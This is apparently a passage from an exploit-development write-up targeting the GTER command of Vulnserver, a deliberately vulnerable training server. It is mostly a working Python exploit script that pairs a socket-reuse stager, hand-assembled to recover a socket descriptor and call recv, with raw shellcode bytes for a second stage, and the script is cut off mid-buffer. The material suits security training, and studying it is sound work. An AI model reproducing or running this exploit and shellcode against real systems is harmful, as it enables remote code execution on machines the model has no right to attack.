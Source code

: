 ```c
buf += b"\xa2\xbb\x60\x8e\xca\x8a\xeb\x41\x8c\x12\x3e\x26\x62"
buf += b"\x59\x63\x0e\xeb\x04\xf1\x13\x76\xb7\x2f\x57\x8f\x34"
buf += b"\xda\x27\x74\x24\xaf\x22\x30\xe2\x43\x5e\x29\x87\x63"
buf += b"\xcd\x4a\x82\x07\x90\xd8\x4e\xe6\x37\x59\xf4\xf6"
```

This will be our ```second stager shellcode``` which will be passed into the buffer of ```1024 bytes``` requested from the ```socket reuse stager```

## Exploitation

The final exploit for the ```GTER``` command using ```socket reuse stager``` is,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat exploit.py    
import socket, sys
from time import sleep

file_descriptor=b""
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

get_file_descriptor=b""
get_file_descriptor+=b"\x8b\x0b"
get_file_descriptor+=b"\x51"

socket_recv=b""
socket_recv+=b"\xba\xaa\x2c\x25\x40"
socket_recv+=b"\xc1\xea\x08"
socket_recv+=b"\xff\xd2"

buf =  b""
buf += b"\xbd\x2d\xad\x09\x5a\xd9\xc7\xd9\x74\x24\xf4\x5f\x31"
buf += b"\xc9\xb1\x31\x31\x6f\x13\x03\x6f\x13\x83\xc7\x29\x4f"
buf += b"\xfc\xa6\xd9\x0d\xff\x56\x19\x72\x89\xb2\x28\xb2\xed"
buf += b"\xb7\x1a\x02\x65\x95\x96\xe9\x2b\x0e\x2d\x9f\xe3\x21"
buf += b"\x86\x2a\xd2\x0c\x17\x06\x26\x0e\x9b\x55\x7b\xf0\xa2"
buf += b"\x95\x8e\xf1\xe3\xc8\x63\xa3\xbc\x87\xd6\x54\xc9\xd2"
buf += b"\xea\xdf\x81\xf3\x6a\x03\x51\xf5\x5b\x92\xea\xac\x7b"
buf += b"\x14\x3f\xc5\x35\x0e\x5c\xe0\x8c\xa5\x96\x9e\x0e\x6c"
buf += b"\xe7\x5f\xbc\x51\xc8\xad\xbc\x96\xee\x4d\xcb\xee\x0d"
buf += b"\xf3\xcc\x34\x6c\x2f\x58\xaf\xd6\xa4\xfa\x0b\xe7\x69"
buf += b"\x9c\xd8\xeb\xc6\xea\x87\xef\xd9\x3f\xbc\x0b\x51\xbe"
buf += b"\x13\x9a\x21\xe5\xb7\xc7\xf2\x84\xee\xad\x55\xb8\xf1"
buf += b"\x0e\x09\x1c\x79\xa2\x5e\x2d\x20\xa8\xa1\xa3\x5e\x9e"
```